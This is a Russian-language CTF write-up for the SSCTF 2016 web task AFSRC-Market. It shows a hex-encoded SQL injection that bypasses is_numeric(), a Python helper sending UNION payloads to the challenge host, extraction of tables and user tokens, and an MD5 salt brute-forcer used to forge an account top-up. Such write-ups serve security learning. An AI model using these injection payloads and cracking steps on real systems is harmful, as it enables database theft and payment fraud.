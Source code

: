 SSCTF 2016 quals Write-up
=====
AFSRC-Market (Web, 500p)
-----

![Главная страница][main_page]

Просмотрев главную страницу становится понятно, что форма поиска не функционирует.
При попытке добавить какой-либо товар в корзину появляетя просьба войти на сайт, и
происходит редирект на страницу входа.
При нажатии на сами товары проиcходит переход по ссылке `https://security.alipay.com/`.

![Please login~~~~~~][alert_msg]

![Страница входа][login_page]

На странице входа требуется ввести логин, пароль и капчу. Попытки использовать различные
служебные символы не приводят к неожиданному поведению сайта.
Перейдем к странице регистрации. Попробуем зарегистрировать нового пользователя.

![Успешная регистрация][reg_success]

![Успешный вход][login_success]

Видим сообщение об успешной регистрации, после которого нас перенаправляют на страницу входа. Пытаемся зайти и... Успех!

![Главная страница после входа][main_page_after_login]

В шапке сайта появились ссылки на профиль пользователя и кнопка выхода. Форма поиска, как и раньше, не функционирует.
Заметим, что после авторизации, в cookie было добавлено единственное значение PHPSESSID - идентификатор сессии в PHP.

![Куки][cookies]

Теперь при попытке добавить товар в корзину осуществляется переход по ссылке вида
`http://edb24e7c.seclover.com/add_cart.php?id=XXX` где вместо `XXX` - какой-нибудь номер.
После этого окрывается домашняя страница, и больше ничего не происходит.
При попытке вставить в параметр `id` различные числа всегда появляется сообщение об успешном добавлении;
при вводе символов, не являющихся цифрами, выдается сообщение об ошибке. Также допустим ввод следующего типа: `id=0x123456`.
Это говорит о том, что параметр `id`, скорее всего, проверяетя перед вставкой в запрос с помощью PHP функции `is_numeric()`.

![Страница пользователя][user_page]

Теперь рассмотрим страницу пользователя. В шапке сайта появляеся ссылка `AddMoney` на
`http://edb24e7c.seclover.com/addmoney.php`, при переходе по которой выводится сообщение.
Также имеются 3 переключаемые вкладки: `Description`, `Additional Information`, `MyInfo`.
Первые две вкладки не так интересны, т.к. скорее всего являются статическими, а третья содержит форму
для добавления денег. Попробуем отправить форму и получим сообщение об ошибке.

![Форма пополнения счета][my_info]

![Сообщение об ошибке при отправке формы][add_money_error]

Также внимание привлекает
строка `The Last cost: 0`. Попробуем выяснить, откуда взялось значение `0`.
После небольшого исследования становится ясно, что при каждом запросе `/add_cart.php?id=XXX`, при указании верного числа в `id`, `The Last cost` принимает случайное ненулевое значение. Если `id=0x123456` или другому случайному hex, то значение обнуляется.
Итак, значение `The Last cost` каким-то образом зависит от параметра `id`, изменяемом при добавлении товара. Как уже было сказано, скорее всего значение параметра `id` проверяется с помощью функции `is_numeric()`, которая пропускает hex. Попробуем совершить простую "is_numeric bypass" sql-инъекцию через параметр `id`. Для генерации hex-значений воспользуемся `python3`
```python
>>> hex(int.from_bytes(b'1 AND 1=2 ; -- ', 'big'))
'0x3120414e4420313d32203b202d2d20'
```

![Простая sql-инъекция, обходящая is_numeric][try_simple_inj]

![Результат инъекции][simple_inj_result]

Как видно на скрине, значение стало пустым. Для удобства исследования напишем функцию на Python, которая будет
отправлять нужный запрос и получать новое значение со страницы пользователя.

```python
import requests
import re


URL = 'http://edb24e7c.seclover.com/'
regexp = r'<p>The Last cost: (.*?)</p>'
cookies = {'PHPSESSID': 'ckf3pes604sgtr3vpp3lrc62t4'}


def sql(query):
    hexed = hex(int.from_bytes(query.encode(), 'big'))
    requests.get(URL + '/add_cart.php', params={'id': hexed}, cookies=cookies)
    result = requests.get(URL + '/userinfo.php', cookies=cookies).text
    match_obj = re.search(regexp, result)
    if match_obj:
        return match_obj.group(1)

```

После чего приступим к запросам:

```python
>>> sql('1')
'1103'
>>> sql('1 AND 1=1 GROUP BY 1 ; -- ')
'4024'
>>> sql('1 AND 1=1 GROUP BY 2 ; -- ')
'7939'
>>> sql('1 AND 1=1 GROUP BY 3 ; -- ')
'501'
>>> sql('1 AND 1=1 GROUP BY 4 ; -- ')
'2059'
>>> sql('1 AND 1=1 GROUP BY 5 ; -- ')
'0'
>>> sql('1 AND 1=2 UNION SELECT "first", "second", "third", "fourth" ; -- ')
'third'
```

Итак, мы выяснили, что результатом запроса должна быть строка из четырех элементов, причем мы можем смотреть значение третьего элемента. Продолжим извлечение данных из базы.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, database(), 4 ; -- ')
'web05'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema="web05"), 4 ; -- ')
'flag,user,user_goods'
```

Видим очень интересное название таблицы - `flag`.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="flag"), 4 ; -- ')
'id,flag'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT COUNT(*) FROM flag), 4 ; -- ')
'1'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id, ",", flag) FROM flag), 4 ; -- ')
'1,Tips:/2112jb1njIUIJ__tr_R/tips.txt'
```

Попробуем перейти на `/2112jb1njIUIJ__tr_R/tips.txt`.

> tips:
>
> 1、Congratulations for you !You finished 80%,Come on continue!
>
> 2、token=md5(md5(username)+salt) salt max lenght is 5(hexs)
>
> 3、Add the Money Get the Flag

Во второй подсказке говорится о каком-то токене. А чтобы получить флаг, нужно пополнить счет.
Вернемся к форме пополнение денег и посмотрим исходный код формы.

![Исходный код формы][form_source]

Видим, что в форме есть скрытый параметр `salt`. Осталось его подобрать, но для этого необходим `token`.
Вернемся к базе данных и посмотрим, какие данные хранятся в таблице пользователей.

```python
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="web05" AND table_name="user"), 4 ; -- ')
'id,username,password,token,scores'
>>> sql('1 AND 1=2 UNION SELECT 1, 2, (SELECT CONCAT(id,",",username,",",password,",",token,",",scores) FROM user WHERE username="a1ex01234"), 4 ; -- ')
'1086,a1ex01234,a1412c40bab245f4a17b675263cae6f7,d77716fc244dcdd08b5de5a82375e437,0'
```

Итак, мы получили `token`, который генерируется для каждого пользователя. Воспользовшись второй подсказкой подберем подходящую соль. Для этого опять воспользуемся `python3`, где для перебора будет полезна библиотека `itertools`.

```python
import itertools
from hashlib import md5


username = b'a1ex01234'
hex_char = '0123456789abcdef'
token = 'd77716fc244dcdd08b5de5a82375e437'

for salt in itertools.product(hex_char, repeat=5):
    salt = ''.join(salt)
    hash_val = md5(md5(username).hexdigest().encode() + salt.encode()).hexdigest()
    if hash_val == token:
        print('Salt =', salt)
        break
```

Запустим скрипт и увидим результат: `Salt = 8b76d`. Добавим его в форму пополнения счета.

![Измененная форма][salted_form]

![Флаг][flag_is]

Получаем флаг!

[main_page]: images/main_page.png "Главная страница"
[alert_msg]: images/alert_msg.png "Предупреждение"
[login_page]: images/login_page.png "Страница входа"
[reg_success]: images/reg_succ.png "Успешная регистрация"
[try_login]: images/login.png "Попытка войти"
[login_success]: images/login_succ.png "Вход прошел успешно"
[main_page_after_login]: images/main_page_after_login.png "Главная страница после входа"
[cookies]: images/cookies.png "Cookies"
[my_info]: images/my_info.png "Форма пополнения счета"
[user_page]: images/user_page.png "Страница пользователя"
[add_money_error]: images/add_money_error.png "Ошибка при пополнении счета"
[try_simple_inj]: images/inj.png "Попытка вставить простую sql-инъекцию"
[simple_inj_result]: images/inj_res.png "Результат sql-иъекции"
[form_source]: images/form_source.png "Исходный код формы пополнения счета"
[salted_form]: images/salted_form.png "Измененная форма"
[flag_is]: images/flag_is.png "Флаг"
